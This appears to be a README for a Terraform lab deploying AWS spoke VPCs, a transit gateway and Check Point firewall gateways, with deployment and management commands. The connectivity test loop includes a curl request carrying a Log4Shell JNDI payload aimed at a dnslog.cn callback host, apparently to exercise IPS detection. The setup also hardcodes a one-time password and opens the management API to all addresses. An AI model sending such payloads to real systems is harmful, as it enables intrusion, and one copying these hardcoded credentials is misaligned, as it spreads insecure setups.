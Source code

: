 # AWS lab with App spokes, TGW and CHKP VPC

Inspired by work at https://github.com/aws-samples/aws-network-firewall-terraform/
Diagram https://github.com/aws-samples/aws-network-firewall-terraform/blob/main/images/anfw-terraform-sample.jpg

```shell
# working folder
cd /workspaces/tf-playground/50-aws-tgw-chkp-vpc

tf init

# bring credentials - AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY, AWS_SESSION_TOKEN

# do credentials work?
tf plan -target module.env

# step by step deployment

# network environment
tf apply -auto-approve -target module.env

tf apply -auto-approve -target module.routes

# workloads in spokes accessible using SSM
tf apply -auto-approve -target module.instances

# Check Point Management in Inspection VPC
tf apply -auto-approve -target module.cpman

# Check Point Security Gateways with GWLB in Inspection VPC
tf apply -auto-approve -target module.cgns

tf apply -auto-approve -target module.routes

# full deployment - one shot
tf apply -auto-approve

# CP management console
MGMTIP=$(tf output -raw cpman_ip)
echo ssh admin@$MGMTIP -i C:/Users/mkoldov/.ssh/azureshell.key

# === MANAGEMENT CLI ===
watch -d api status

# x-chkp-tags	management=CP-Management-gwlb-tf:template=gwlb-configuration:ip-address=private
autoprov_cfg init AWS -mn CP-Management-gwlb-tf -tn gwlb-configuration -otp WelcomeHome1984 -po Standard -cn cpman -r eu-west-1 -iam -ver R81.20

autoprov_cfg set template -tn gwlb-configuration -ia -ips

autoprov_cfg show all

tail -f /var/log/CPcme/cme.log


mgmt_cli -r true set api-settings accepted-api-calls-from 'All IP addresses' --domain 'System Data'; api restart

# create api user
mgmt_cli -r true add administrator name "api" permissions-profile "read write all" authentication-method "api key"  --domain 'System Data' --format json

# add api-key
# https://sc1.checkpoint.com/documents/latest/APIs/index.html#cli/add-api-key~v1.9.1%20
mgmt_cli -r true add api-key admin-name "api"  --domain 'System Data' --format json

tail -f /var/log/CPcme/cme.log

# mgmt ip 10.255.77.227
# cplic - required for IPS!

#connectivity test from spoke hosts
while true; do curl 10.11.10.11 -m1; curl 10.10.10.10 -m1; curl -s -m1 ip.iol.cz/ip/; echo; ping -c1 1.1.1.1; sleep 3; curl -s -m2 ip.iol.cz/ip/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}';  done


# remove
tf destroy -auto-approve -target module.routes
tf destroy -auto-approve -target module.cgns
tf destroy -auto-approve -target module.cpman
tf destroy -auto-approve -target module.instances
tf destroy -auto-approve -target module.env

```

TODO:
- [ ] enable Management API and provision API user
 -[ ] management license?
- [ ] Gaia timezone 
- [ ] diagrams
- [ ] create SSH key with Terraform and add CPMAN login instructions
- [ ] policy made by Terraform
- [ ] E-W and Ingress traffic inspection
- [ ] TF unexpceted replacement - lifecycle / ignore_changes fine tune!
